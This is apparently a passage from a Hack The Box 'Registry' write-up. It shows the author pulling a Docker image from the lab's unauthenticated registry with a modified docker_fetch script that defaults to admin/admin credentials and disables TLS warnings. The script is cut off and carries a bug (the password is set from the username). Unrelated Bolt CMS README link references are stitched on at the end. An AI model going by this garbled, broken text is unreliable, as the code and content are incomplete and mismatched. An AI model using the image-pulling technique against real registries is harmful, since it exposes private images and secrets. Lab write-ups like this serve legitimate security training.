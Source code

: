 {% highlight bash %}
root@fury-battlestation:~/htb/blog/registry# git clone https://github.com/NotSoSecure/docker_fetch.git
Cloning into 'docker_fetch'...
remote: Enumerating objects: 22, done.
remote: Total 22 (delta 0), reused 0 (delta 0), pack-reused 22
Unpacking objects: 100% (22/22), done.
root@fury-battlestation:~/htb/blog/registry# cd docker_fetch/
root@fury-battlestation:~/htb/blog/registry/docker_fetch# nano docker_image_fetch.py 
root@fury-battlestation:~/htb/blog/registry/docker_fetch# nano docker_image_fetch.py 
root@fury-battlestation:~/htb/blog/registry/docker_fetch# python docker_image_fetch.py -u https://docker.registry.htb

[+] List of Repositories:

bolt-image

Which repo would you like to download?:  bolt-image



[+] Available Tags:

latest

Which tag would you like to download?:  latest

Give a directory name:  bolt-image
Now sit back and relax. I will download all the blobs for you in bolt-image directory. 
Open the directory, unzip all the files and explore like a Boss. 

{% endhighlight %}

I had to modify the program a little so it supported HTTPBasicAuth. Also, I disabled the ‘insecure request’ warnings. The python file I used can be found below:

{% highlight python %}
from requests.auth import HTTPBasicAuth
import os
import json
import optparse
import requests

# pulls Docker Images from unauthenticated docker registry api. 
# and checks for docker misconfigurations. 

apiversion = "v2"
final_list_of_blobs = []

# Disable insecure request warning 
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="URL Endpoint for Docker Registry API v2. Eg https://IP:Port", default="spam")
parser.add_option('-l', '--login', action="store", dest="username", help="HTTPAuth login username", default="admin")
parser.add_option('-p', '--pass', action="store", dest="password", help="HTTPAuth login password", default="admin")
options, args = parser.parse_args()
url = options.url
username = options.username
password = options.username



[bolt-cm]: https://bolt.cm
[MIT-license]: http://opensource.org/licenses/mit-license.php
[docs]: https://docs.bolt.cm/installation
[support]: https://bolt.cm/community
[travis]: http://travis-ci.org/bolt/bolt
[travis-badge]: https://travis-ci.org/GawainLynch/bolt.svg?branch=release%2F3.3
[codeclimate]: https://lima.codeclimate.com/github/bolt/bolt
[codeclimate-badge]: https://lima.codeclimate.com/github/bolt/bolt/badges/gpa.svg
[sensio-insight]: https://insight.sensiolabs.com/projects/4d1713e3-be44-4c2e-ad92-35f65eee6bd5
[sensio-badge]: https://insight.sensiolabs.com/projects/4d1713e3-be44-4c2e-ad92-35f65eee6bd5/mini.png
[slack-badge]: https://slack.bolt.cm/badge/ratio
[contributing]: https://github.com/bolt/bolt/blob/master/.github/CONTRIBUTING.md